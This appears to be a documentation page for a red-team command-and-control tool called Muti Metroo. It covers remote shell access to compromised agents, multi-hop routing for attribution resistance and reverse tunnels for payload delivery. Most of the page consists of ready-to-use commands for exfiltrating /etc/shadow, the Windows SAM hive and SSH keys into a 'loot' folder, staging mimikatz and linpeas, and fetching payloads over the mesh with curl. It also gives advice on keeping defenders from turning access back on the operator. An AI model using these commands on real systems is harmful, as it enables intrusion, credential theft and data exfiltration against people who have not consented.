

# C2 Capabilities

Muti Metroo provides command and control capabilities for remote operations across the mesh network.

## Remote Command Execution

Muti Metroo supports two shell execution modes:

### Normal Mode (Default)

Standard execution without PTY. Commands run and return an exit code:

```bash
# One-shot commands
muti-metroo shell <agent-id> whoami
muti-metroo shell <agent-id> cat /etc/passwd
muti-metroo shell <agent-id> ipconfig /all

# Long-running with streaming output
muti-metroo shell <agent-id> tail -f /var/log/auth.log
muti-metroo shell <agent-id> tcpdump -i eth0
```

### Interactive Mode (--tty)

Full PTY allocation for interactive programs:

```bash
# Interactive shells
muti-metroo shell --tty <agent-id> bash
muti-metroo shell --tty <agent-id> powershell
muti-metroo shell --tty <agent-id> cmd.exe

# Interactive tools
muti-metroo shell --tty <agent-id> vim /etc/hosts
muti-metroo shell --tty <agent-id> htop
muti-metroo shell --tty <agent-id> python3
```

**Platform Support:**

| Platform | Normal | Interactive (PTY) |
|----------|-----------|-------------------|
| Linux | Yes | Yes (creack/pty) |
| macOS | Yes | Yes (creack/pty) |
| Windows | Yes | Yes (ConPTY) |

:::info Windows ConPTY
Windows agents use ConPTY (Windows Pseudo Console) for interactive sessions. Available on Windows 10 1809+ and Windows Server 2019+. Supports full terminal emulation including colors, cursor movement, and window resize.
:::

### Shell Configuration

This configuration applies to the **target agent** (the agent you want to control remotely), not the calling agent. Each agent in your mesh can have different shell settings - some may allow shell access, others may not.

```yaml
shell:
  enabled: true
  whitelist:
    - "*"              # Allow all (operational use)
    # Or specific commands:
    # - bash
    # - powershell
    # - cmd
    # - whoami
  password_hash: "$2a$10$..."  # bcrypt hash
  timeout: 0s          # 0 = no timeout
  max_sessions: 0      # 0 = unlimited
```

**Security notes:**
- Command whitelist prevents unauthorized command execution
- Dangerous shell metacharacters are blocked: `; & | $ \` ( ) { } [ ] < > \ ! * ? ~`
- Absolute paths in arguments are rejected
- Password authentication adds protection layer

:::danger Operator Agents: Disable Shell
**Never enable shell on operator/ingress agents.** If blue team gains access to a compromised field agent, they could use it to execute commands on your operator machine - reversing the attack direction. Only enable shell on target agents you want to control, never on agents running on your own infrastructure.
:::

## File Operations

### File Exfiltration

```bash
# Download single file
muti-metroo download <agent-id> /etc/shadow ./loot/shadow
muti-metroo download <agent-id> C:\Windows\System32\config\SAM ./loot/SAM

# Download entire directory (auto tar+gzip)
muti-metroo download <agent-id> /home/user/.ssh ./loot/ssh-keys
muti-metroo download <agent-id> C:\Users\target\Documents ./loot/docs
```

### Tool Staging

```bash
# Upload single file
muti-metroo upload <agent-id> ./tools/linpeas.sh /tmp/lp.sh
muti-metroo upload <agent-id> ./tools/mimikatz.exe C:\Windows\Temp\m.exe

# Upload directory (maintains structure)
muti-metroo upload <agent-id> ./toolkit /tmp/toolkit
```

### File Transfer Configuration

Like shell, this configuration applies to the **target agent**. Each agent controls whether it accepts file uploads/downloads and which paths are accessible.

```yaml
file_transfer:
  enabled: true
  password_hash: "$2a$10$..."
  max_file_size: 0        # 0 = unlimited
  allowed_paths:
    - "*"                 # Full filesystem (operational)
    # Or restricted:
    # - /tmp
    # - /home/*/
    # - C:\Users\*\Documents
```

**Features:**
- Streaming transfer (no memory limits)
- Directory support with tar/gzip compression
- File permissions preserved
- Symlink validation (prevents escape attacks)
- Path traversal protection

:::danger Operator Agents: Disable File Transfer
**Never enable file transfer on operator agents.** A compromised field agent could be used by blue team to exfiltrate files from your operator machine or upload malicious payloads. Only enable on targets you want to access.
:::

## Multi-Hop Routing

Traffic is automatically routed through the mesh for attribution resistance:



**Path characteristics:**
- Each hop only sees adjacent peers
- E2E encryption prevents transit inspection
- Routes propagate via flooding (automatic discovery)
- Longest-prefix-match for route selection

**Practical limits:**

| Use Case | Max Hops | Limiting Factor |
|----------|----------|-----------------|
| Interactive SSH | 8-12 | Latency (~5-50ms/hop) |
| File Transfer | 12-16 | Throughput |
| High-latency WAN | 4-6 | 30s stream timeout |

## Port Forwarding (Reverse Tunnels)

Port forwarding creates reverse tunnels - the opposite direction from SOCKS5. Instead of reaching remote destinations, you expose local services so remote machines can reach you.

**Key use cases:**

- **Tool distribution**: Serve payloads from your operator machine to any target in the mesh
- **C2 callbacks**: Receive reverse shells through the mesh network
- **Service exposure**: Share development servers or staging environments

```yaml
# Operator machine - expose local web server
forward:
  endpoints:
    - key: "tools"
      target: "localhost:8000"

# Field agents - accept remote connections
forward:
  listeners:
    - key: "tools"
      address: ":8080"
```

From any target: `curl http://field-agent:8080/linpeas.sh -o /tmp/lp.sh`

See [Port Forwarding](/features/port-forwarding) for configuration details and additional scenarios.
